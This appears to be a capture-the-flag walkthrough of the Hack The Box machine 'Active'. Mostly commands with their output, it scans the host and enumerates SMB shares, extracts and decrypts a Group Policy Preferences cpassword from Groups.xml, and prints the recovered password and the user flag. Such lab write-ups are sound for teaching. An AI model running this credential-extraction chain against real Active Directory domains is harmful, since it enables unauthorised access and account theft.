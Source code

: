 ## ---------------->> Active <<----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.100 -p-
------

    Host is up (0.32s latency).
    Not shown: 65512 closed ports
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
    | dns-nsid: 
    |_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-21 01:38:02Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    5722/tcp  open  msrpc         Microsoft Windows RPC
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49152/tcp open  msrpc         Microsoft Windows RPC
    49153/tcp open  msrpc         Microsoft Windows RPC
    49154/tcp open  msrpc         Microsoft Windows RPC
    49155/tcp open  msrpc         Microsoft Windows RPC
    49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49158/tcp open  msrpc         Microsoft Windows RPC
    49169/tcp open  msrpc         Microsoft Windows RPC
    49171/tcp open  msrpc         Microsoft Windows RPC
    49182/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled and required
    | smb2-time: 
    |   date: 2021-08-21T01:39:00
    |_  start_date: 2021-08-21T01:21:20

// We can see that smb service is active

// Lets see if we can see shared directories with [smbmap](https://github.com/ShawnDEvans/smbmap)

    $ smbmap -H 10.10.10.100
------

    [+] IP: 10.10.10.100:445	Name: 10.10.10.100                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      ADMIN$                                            	NO ACCESS	Remote Admin
      C$                                                	NO ACCESS	Default share
      IPC$                                              	NO ACCESS	Remote IPC
      NETLOGON                                          	NO ACCESS	Logon server share 
      Replication                                       	READ ONLY	
      SYSVOL                                            	NO ACCESS	Logon server share 
      Users                                             	NO ACCESS	

// There is one directory that we have read permissions - Replication 

// Lets search recursivly this directory with [smbmap](https://github.com/ShawnDEvans/smbmap)

    $ smbmap -H 10.10.10.100 -R Replication

// After some search the most interesting file is in Groups folder and called 'Groups.xml'

    $ smbmap -H 10.10.10.100 -R Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/
-------

    [+] IP: 10.10.10.100:445	Name: 10.10.10.100                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      Replication                                       	READ ONLY	
      .\Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\*
      dr--r--r--                0 Sat Jul 21 06:37:44 2018	.
      dr--r--r--                0 Sat Jul 21 06:37:44 2018	..
      dr--r--r--                0 Sat Jul 21 06:37:44 2018	Groups
      .\Replicationactive.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
      dr--r--r--                0 Sat Jul 21 06:37:44 2018	.
      dr--r--r--                0 Sat Jul 21 06:37:44 2018	..
      fr--r--r--              533 Sat Jul 21 06:38:11 2018	Groups.xml

// Lets download him 

    $ smbmap -H 10.10.10.100 --download 'Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml'
-------

    [+] Starting download: Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml (533 bytes)
    [+] File output to: /home/r4r3/Desktop/GitHub/HTB/Machines/Windows/Easy/Active/10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml

    $ ls
     10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml

// And see the content 

    $ cat 10.10.10.100-Replication_active.htb_Policies_\{31B2F340-016D-11D2-945F-00C04FB984F9\}_MACHINE_Preferences_Groups_Groups.xml 
-------

    <?xml version="1.0" encoding="utf-8"?>
    <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
    </Groups>

// We can see the domain name is 'active.htb', Also, 

// Every time a new [GPP](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)(Group Policy Preference) is created, an xml file will created in the SYSVOL with all GPP passwords.

// After that the passwords ecrypted with Microsoft AES as cpassword. 

// The encryption key have [published](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)
// We can decrypt the password with [gpp-decryot tool](https://tools.kali.org/password-attacks/gpp-decrypt)

    $ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
-----

    GPPstillStandingStrong2k18

// We got SVC_TGS password !

    SVC_TGS : GPPstillStandingStrong2k18

// Now we got user credentials, we can see his share files with smbmap 

    $ smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
------

    [+] IP: 10.10.10.100:445	Name: 10.10.10.100                                      
            Disk                                                  	Permissions	Comment
        ----                                                  	-----------	-------
        ADMIN$                                            	NO ACCESS	Remote Admin
        C$                                                	NO ACCESS	Default share
        IPC$                                              	NO ACCESS	Remote IPC
        NETLOGON                                          	READ ONLY	Logon server share 
        Replication                                       	READ ONLY	
        SYSVOL                                            	READ ONLY	Logon server share 
        Users                                             	READ ONLY	

// $smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 --download 'Users/SVC_TGS/Desktop/user.txt'
[+] Starting download: Users\SVC_TGS\Desktop\user.txt (34 bytes)
[+] File output to: /home/r4r3/Desktop/GitHub/HTB/Machines/Windows/Easy/Active/10.10.10.100-Users_SVC_TGS_Desktop_user.txt
┌─[r4r3@r4r3-80sm]─[~/Desktop/GitHub/HTB/Machines/Windows/Easy/Active]
└──╼ $ls
 10.10.10.100-Replication_active.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml   10.10.10.100-Users_SVC_TGS_Desktop_user.txt  'Text File.txt'
┌─[r4r3@r4r3-80sm]─[~/Desktop/GitHub/HTB/Machines/Windows/Easy/Active]
└──╼ $cat 10.10.10.100-Users_SVC_TGS_Desktop_user.txt 
86d67d8ba232bb6a254aa4d10159e983



Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
